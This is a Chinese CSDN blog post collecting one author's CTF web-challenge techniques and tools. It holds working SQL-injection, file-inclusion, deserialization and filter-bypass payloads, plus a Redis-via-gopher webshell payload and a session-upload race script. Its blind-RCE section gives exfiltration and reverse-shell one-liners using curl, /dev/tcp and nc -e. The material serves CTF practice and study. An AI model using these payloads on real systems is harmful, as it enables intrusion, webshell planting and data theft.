


<!--yml
category: 未分类
date: 2022-04-26 14:43:25
-->

# ctf web个人总结_recover517的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_31343581/article/details/90617140](https://blog.csdn.net/qq_31343581/article/details/90617140)

# CTF web个人总结

> 仅供个人参考

*   从0开始接触到了CTF，算是入门了，为了方便自己做题，现在记录一下web类型题目的解题思路。

* * *

## 工具

1.  [蚁剑antSword](https://github.com/AntSwordProject/antSword)
2.  burpsuite
3.  谷歌浏览器或火狐浏览器
4.  postman(总感觉还是这个用着爽)
5.  sqlmap
6.  nmap
7.  proxychains
8.  dirb
9.  dirscan
10.  [phpgcc](https://github.com/wh1t3p1g/phpggc) 基于框架的链式调用REC
11.  metaspolit (5和6有所区别，安装时注意区分)
12.  [githack](https://github.com/BugScanTeam/GitHack) .git文件泄露利用工具
13.  [svnExploit](https://github.com/admintony/svnExploit/) .svn泄露利用工具
14.  [ds_store_exp](https://github.com/lijiejie/ds_store_exp) .DS_Store泄露利用工具
15.  [fsan](https://github.com/shadow1ng/fscan) 一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描
16.  [nps](https://github.com/ehang-io/nps) 网穿透代理服务器
17.  [frp](https://github.com/fatedier/frp) 网穿透代理服务器
18.  [shiro_attack](https://github.com/j1anFen/shiro_attack) shiro反序列化漏洞综合利用工具
19.  [wooyun公开漏洞爬虫版](https://github.com/hanc00l/wooyun_public)
20.  [CTFcrackTools](https://github.com/0Chencc/CTFCrackTools) CTF的工具框架
21.  [Arjun](https://github.com/s0md3v/Arjun) 爆破页面的参数
22.  [flask-session伪造](https://github.com/noraj/flask-session-cookie-manager)

…想到再补充

## 解题思路

#### 一、普通思路

1.  拿到题目首先查看源代码，在源代码中特别注意js或者css文件中是否透露着某些信息
2.  查看meta标签，如type为author的，这个标签表示作者，后面很有可能会用到这些信息
3.  查看根目录下是否有robots.txt，建议任何网站，开始做题的时候都先扔到dirb中进行路径爆破
4.  注意审题，题目中往往会透露一些关键信息，例如：网站备份，诸如此类，那么建议根据路径搜索相关的www.zip或xxx.bak等备份文件
5.  用户认证伪造，注意查看网络数据包，可以通过修改cookie，或者爆破jwt的方式伪造认证
6.  ip伪造，通常用于页面需要本地或指定ip访问的题目，利用`X-Forwarded-For`、`X-Client-IP`、`X-Real-IP`、`CDN-Src-IP`head头，来伪造访问客户端的ip，前提是服务端利用这两个参数进行用户验证
7.  git泄露，网站下存在.git且可以访问，用`GitHack`工具，还原代码，查看漏洞
8.  vim交换文件泄露`.xxx.swp`

#### 二、注入思路

9.  时刻注意项目中是否有可提交的输入框，后者页面参数为`id=1`，诸如此类，建议尝试sql注入，sql注入有很多分类，简单的可以使用sqlmap做基础探测，如果一直半会儿试不出来可以先寻找其他突破口。
10.  sql注入先使用错误的参数进行页面报错判断，因为有时候也有可能是作为文件包含的参数。
11.  使用`'`或者`"`进行sql探测，使用`--+`或`#`(注意转换成`%23`，因为#在url中代表hash)，如果有报错是最好的。
12.  使用一些固定的payload进行尝试，例如：`and 1=2`,`and 1='1`或者其他复杂的payload
13.  使用`extractvalue`报错函数进行注入，如：

```
?id=1" and extractvalue('~', concat(',', (select f4ag from f1ag limit 2,1)))%23 
```

14.  利用时间函数进行判断, 如：

```
select 1,IF(1=1, sleep(3), 'goodbye'),3 
```

确认可以时间盲注的话，就可以编写脚本进行爆破

15.  很多时候再服务端往往会进行字符串过滤，这时候你要根据一定的信息去猜测服务端可能存在的过滤方法，然后筛选出可能可以使用的注入方法，可能存在的情况有：字符串空替换，小写关键字判断，那么关键字就可以写成这样：`selselectect`, `sElEct`

16.  超长字符截断，例如: 题目需要你以admin账号登录，但是系统中已经存在admin账号，此时，你注册一个类似`admin空格*n 1`的账号，利用mysql的截断，成功注册用户名为admin 的账号

17.  使用16进制注入，MySQL中会将16进制自动解析成字符串，同时，16进制也可以用于绕过is_numeric。

18.  宽字节注入，一般遇到addslashes函数来过滤`'`和`"`时，可能会出现宽字节注入，使用`%df`来与转义引号的`\`进行合并，从而达到闭合输入的目的。

19.  `group by rollup`语法，试关键字段出现一个null的结果，配合limit获取null值，最后通过与null比较，绕过逻辑判断。

#### 三、文件包含漏洞

21.  文件包含漏洞有时候是跟文件上传漏洞同时存在的，在上传的时候注意伪装文件信息，上传小马，然后使用文件包含漏洞执行webshell，可以使用菜刀工具。
22.  文件包含漏洞往往可以让你获取页面的源代码，但是php文件会被服务器解析，所以你看不到，这里就要用到php的伪协议，例如:`php://filter/read=convert.base64-encode/resource=xxxx.php`，使用伪协议来讲源码转换成base64后输出，然后用base64解码成源码。
23.  当然，在文件包含漏洞中往往也为设置字符串过滤，但是还是有可以利用的函数漏洞，例如：使用`%2570`来替换`p`，当代码中判断你的字符串是否包含php时，可以使用这个方法，但是注意，在浏览器中似乎不管用，你可以再bash环境中使用curl测试。
24.  如果你上传的文件可以直接覆盖.htaccess文件，那么你可以在.htaccess中声明，以php文件去解析某一些匹配的图片。

```
AddType   application/x-httpd-php     .jpg 
```

25.  `include`函数，以字符’/‘分隔（而且不计个数），若是在前面的字符串所代表的文件无法被PHP找到，则PHP会自动包含‘/’后面的文件——注意是最后一个’/’
    例如

```
include $_REQUEST['file'];

?file=hint.php?../../../../../../../../ffffllllaaaagggg 
```

#### 四、显示源码类型

1.  这个就比较考验你的逻辑思维了，一般吧当前文件的源码放出来给你，让你找漏洞，其中也包括文件包含的漏洞。
2.  可利用的php函数的一些特性，比如在做字符串比较的时候，如:`0==$_GET['a']`, 首先带那种过滤了`$_GET`，让你无法提交数字，但是根据php的一些特性，你提交字符串时，在判断时会被强转成数字。
3.  md5利用，一般会判断两个不同输入值的md5值是否相等，这时要利用php的特性，`0e`开头表示科学计数法，让两个MD5值为`0e`开头的字符串进行md5比较，我也收藏了相关的博客如下：
    [https://blog.csdn.net/qq449736038/article/details/80843914](https://blog.csdn.net/qq449736038/article/details/80843914)
4.  反序列化漏洞，通过修改序列化字符串绕过反串行化的漏洞
    例如序列化后为: `O:4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}`
    可修改为: `O:+4:"Demo":2:{s:10:" Demo file";s:8:"fl4g.php";}`
    其中`+`为了绕过正则`/[oc]:\d+:/i`
    `:1:`改为`:2:`是为了绕过`__wakeup`

#### 五、绕过类

1.  使用`http://xxxxxx:8888///xxxx/xxx/xxx`绕过`parse_url()`、`parse_str()`
2.  apache服务器下可以利用`.htaccess`，[详情请点击](http://cn-sec.com/archives/504746.html)

```
// 利用php去识别xxx文件
<FilesMatch "xxx">
SetHandler application/x-httpd-php
</FilesMatch>
---
// 识别.txt为php5执行文件
AddHandler php5-script .txt
// 识别.txt为php7执行文件
AddHandler php7-script .txt
// 包含文件
to_append_file /flag 
```

3.  nginx下利用.user.ini

```
auto_prepend_file=a.jpg //指定在主文件之前自动解析的文件的名称，并包含该文件，就像使用require函数调用它一样。它包含在所有php文件前先执行
auto_append_file=a.jpg  //解析后进行包含，它包含在所有php文件执行后执行 
```

4.  修改php.ini

```
auto_prepend_file = "/home/fdipzone/header.php"
auto_append_file = "/home/fdipzone/header.php" 
```

6.  使用`<script language="php">eval($_POST[1])</script>`来绕过`<?`限制
7.  各种查看文件的命令

```
cat 
more 
less
tac
nl
grep 
```

8.  命令拼接绕过

```
;
%0a 
| 
|| 
%26 
```

9.  过滤字符串，如题

```
<?php

highlight_file(__FILE__);
error_reporting(E_ALL);
if(isset($_GET['cmd'])){
    $cmd=$_GET['cmd'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\%|\x09|\x26|\>|\</i", $cmd)){
        system($cmd);
    }
    else{
        die("hacker");
    }
} 
```

绕过

```
flag.php  
fla\g.php 
fla''g.php
fla""g.php
fla?.php
fla*.php
ca''t flag.php
ca""t flag.php
ca\t flag.php
a=fla;b=g.php;cat $a$b;

$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
/???/??? /????.??? ===>  /bin/cat flag.php
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|bash ==>cat /flag

{printf,"\74\77\160\150160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php 
```

8.  文件上传执行命令，php能接受文件上传，即使没有提供上传接口，上传的文件默认会保存在

```
/tmp/phpxxxxxx => x代表随机的英文大小写字母 
```

可利用通配符形式进行命令执行

```
 import requests
while True:
 print(1)
 url="http://101.34.94.44:7001/rce8/index.php?cmd=. /???/????????[@-[]"

 files={'file':'cat /f*'}
 response=requests.post(url,files=files)
 html = response.text
 if 'flag{' in html:
  print(html)
  break 
```

9.  空格绕过

```
${IFS}  
$IFS
$IFS$9
%09 ===> tab
< 
```

10.  无回显情况

```
<?php 
exec($_GET['c']); 
```

方案

```
 http://http.requestbin.buuoj.cn/xxxx?a=`whoami`

nc -lvp 4444
curl http://192.168.0.x:4444?a=`whoami`

ls -la />aaa.txt

bash -i >& /dev/tcp/127.0.0.1/8888 0>&1 (linux)

nc 127.0.0.1 8888 -e /bin/sh (linux)
nc 127.0.0.1 8888 -e c:\windows\system32\cmd.exe (windows) 
```

#### 六、伪协议

1.  常用伪协议`php://filter/`，用法

```
php://filter/[read|write]=????/resource=??? 
```

2.  常用转换类型`convert.base64-decode`、`convert.quoted-printable-encode`、`convert.iconv.<input-encoding>.<output-encoding>`、`string.strip_tags`
    、`string.toupper`、`string.tolower`、`string.rot13`等等

3.  `file://`协议支持以`file://localhost/etc/hosts`的方式访问服务器文件，来绕过`file:///`的过滤

4.  `php://input`获取post中的数据，注意：enctype=“multipart/form-data” 的时候 php://input 是无效的

5.  `data://`自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到base64编码传输。
    如：`http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b`

6.  `zip://`、`compress.zlib://`，压缩过滤器 不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。 zlib.* 压缩过滤器自 PHP 版本 5.1.0起可用，在激活 zlib的前提下。也可以通过安装来自 » PECL的 » zlib_filter包作为一个后门在 5.0.x版中使用。此过滤器在 PHP 4 中 不可用。

7.  `phar://`上传phar包，使用phar伪协议

```
class A {
    public $a;
    public function __destruct()
    {
        system($this->a);
    }
}

$a=new A();
$a->a  =  'ls /';
$phar = new Phar("aaa.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "b"); 
$phar->stopBuffering();

include "phar://aaa.phar/test.txt"; 
```

8.  gopher协议
    如果环境冲存在可利用的协议如：gopher、dict、http、https、file等，file协议可以用于查看文件dict协议可以用于刺探端口，gopher协议支持GET&POST请求，常用于攻击内网ftp、redis、telnet、smtp等服务，还可以利用[gopher](https://github.com/tarunkant/Gopherus)协议访问redis反弹shell。

```
gopherus.py --exploit redis 
```

注意生成的payload

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2420%0D%0A%0A%0Aeval%28%24_POST%5B1%5D%29%3B%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A 
```

需要再url编码一次

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2428%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B1%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A 
```

存在gopher漏洞时，使用gopher指定端口，若端口存在，则会有一定延迟，若端口不存在，则不会有延时。
端口列表：

```
mysql ===> 3306
postgresql ===> 
fastcgi ===> 9000
redis ===> 6379
smtp
zabbix
pymemcache
rbmemcache
phpmemcache
dmpmemcache 
```

9.  存在gopher协议，且页面需要post请求
    案例

```
<?php
error_reporting(0);
if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch); 
```

flag.php

```
<?php
error_reporting(0);
if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    echo "Just View From 127.0.0.1";
    return;
}
$flag=getenv("CTFHUB");
$key = md5($flag);
if (isset($_POST["key"]) && $_POST["key"] == $key) {
    echo $flag;
    exit;
}
?>
<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=<?php echo $key;?>-->
</form> 
```

flag.php接收post参数，然无法直接传入post参数，需在index.php中利用gopher协议
把访问
http://xxxxxx/index.php?url=http://120.0.0.1/flag.php获取key
用post把key传给flag.php并用bp抓包，并url编码

在hackbar中再次url编码后发送请求，如下

```
http://challenge-ac6bda65846a9a3b.sandbox.ctfhub.com:10800/?url=gopher://127.0.0.1:80/_《url编码》 
```

10.  目录拼接绕过

```
<?php
class Factory{
   static private $_obj=null;
   static public function setModel() {
      $_a = self::getA();
      if (file_get_contents(ROOT_PATH.'/model/'.$_a.'Model.class.php'))
          eval('self::$_obj = new '.ucfirst($_a).'Model();');
      return self::$_obj;
   }
   static public function getA(){
      if(isset($_GET['a']) && !empty($_GET['a'])){
         return $_GET['a'];
      }
      return 'login';
   }
} 
```

绕过

```
?a=Factory();phpinfo();//../ 
```

解析：在参数拼接后，得到file_get_contents中的内容为

```
/model/Factory();phpinfo(); 
```

使用 … 绕过文件目录访问
使用 // 进行代码注释，绕过eval中的内容

```
self::$_obj = new Factory();phpinfo(); 
```

11.  IP绕过，一下均等同于`127.0.0.1`

```
127.0.0.1
0.0.0.0
localhost
127.0.1
127.0.0.1

http://0x7F000001
http://2130706433

http://0 
```

12.  图片二次渲染绕过，在php代码中，如果使用以下函数对图片进行二次渲染

```
imagecreatefromjpeg
imagecreatefrompng
imagecreatefromgif 
```

则需要通过特殊图片进行绕过
gif文件只要上传后，对比没有变动的位置，把此位置换成一句话即可
jpeg和png需要特殊的图片，可使用[这些图片](https://download.csdn.net/download/qq_31343581/57252541)。
13\. session上传，实现任意文件包含getshell

```
<?php
    $b=$_GET['file'];
    include "$b";
?> 
```

绕过

```
 ​
import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('whoami');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://127.0.0.1:5555/test56.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://127.0.0.1:5555/test56.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30): 
            threading.Thread(target=write,args=(session,)).start()
​
        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set() 
```

效果

其中`laptop-bhbjtmj6\xue` 就为 `system('whoami');`的结果，[参考](https://www.freebuf.com/vuls/202819.html)

#### 七、反弹shell

在近期的夺旗赛中，有一道题目，通过层层挖掘，找到了一个一句话木马的页面，但是系统禁用了很多执行函数，但是开放了一个叫PCNTL 函数，可以利用这个函数进行脚本执行，利用执行到的反弹shell进行服务器shell执行

#### 八、xss和csrf

会有专门的机器人来跑脚本去出发你的payload，不过没遇到过

#### 九、混合型

此类题目会结合以上的类型进行难度较大的flag挖掘

* * *

#### PS：思路我会不定期整理与更新